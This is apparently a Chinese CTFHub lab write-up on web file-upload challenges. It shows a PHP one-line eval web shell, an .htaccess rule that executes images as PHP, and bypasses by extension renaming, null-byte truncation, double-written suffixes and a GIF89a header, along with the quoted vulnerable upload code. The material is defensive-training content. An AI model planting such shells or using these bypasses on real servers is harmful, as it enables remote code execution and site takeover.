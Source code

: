 ```yaml
---
layout: post
title: CTFHub Web 文件上传
subtitle: CTFHub Web 文件上传
date: 2025-07-02 17:13
author: Kyon-H
header-img: img/post-bg-2015.jpg
tags:
  - 靶场实战
  - CTFHub
published: true
number headings: first-level 2, max 4, 1.1., auto
---
```

## 1. 文件上传

### 1.1. 无验证

构造一句话木马 `shell.php`

```php
<?php echo 123;@eval($_POST['code']);?>
```

上传成功

![image](https://img.ghostliner.top/geMboM.png)

![image](https://img.ghostliner.top/Q3YLJs.png)

蚁剑获取到 flag 文件

![image](https://img.ghostliner.top/8EERyC.png)

### 1.2. 前端验证

上传 `shell.php.jpg` bp 抓包修改后缀，上传成功，蚁剑连接

![image](https://img.ghostliner.top/bwzZR3.png)

### 1.3. .htaccess

创建 `.htaccess` 文件上传

```php
<FilesMatch "wshell">
Sethandler application/x-httpd-php
</FilesMatch>
```

上传 `shell.gif` 木马

代码成功执行

![image](https://img.ghostliner.top/cGx3KP.png)

![image](https://img.ghostliner.top/wcRdc9.png)

### 1.4. MIME 绕过

上传 `shell.php.jpg` bp 抓包修改后缀，上传成功，蚁剑连接

![image](https://img.ghostliner.top/sq30WW.png)

### 1.5. 00 截断

检查发现代码，文件路径由 get 提交的 `road` 和随机数、时间、后缀组成

```php
if (!empty($_POST['submit'])) {
    $name = basename($_FILES['file']['name']);
    $info = pathinfo($name);
    $ext = $info['extension'];
    $whitelist = array("jpg", "png", "gif");
    if (in_array($ext, $whitelist)) {
        $des = $_GET['road'] . "/" . rand(10, 99) . date("YmdHis") . "." . $ext;
        if (move_uploaded_file($_FILES['file']['tmp_name'], $des)) {
            echo "<script>alert('上传成功')</script>";
        } else {
            echo "<script>alert('上传失败')</script>";
        }
    } else {
        echo "文件类型不匹配";
    }
}
```

`%00` 截断 road 参数，上传成功

![image](https://img.ghostliner.top/yLCSDP.png)

![image](https://img.ghostliner.top/FHiJk6.png)

![image](https://img.ghostliner.top/3E9ATO.png)

### 1.6. 双写后缀

代码发现字符替换函数，双写绕过

```php
$name = basename($_FILES['file']['name']);
$blacklist = array("php", "php5", "php4", "php3", "phtml", "pht", "jsp", "jspa", "jspx", "jsw", "jsv", "jspf", "jtml", "asp", "aspx", "asa", "asax", "ascx", "ashx", "asmx", "cer", "swf", "htaccess", "ini");
$name = str_ireplace($blacklist, "", $name);
```

上传 `shell.pphphp` 成功，蚁剑

![image](https://img.ghostliner.top/99LdSm.png)

### 1.7. 文件头检查

上传 `shell.php.gif` bp 抓包修改后缀，

```php
GIF89a
<?php echo 123;@eval($_POST['code']);?>
```

上传成功，蚁剑连接

![image](https://img.ghostliner.top/ay93X5.png)
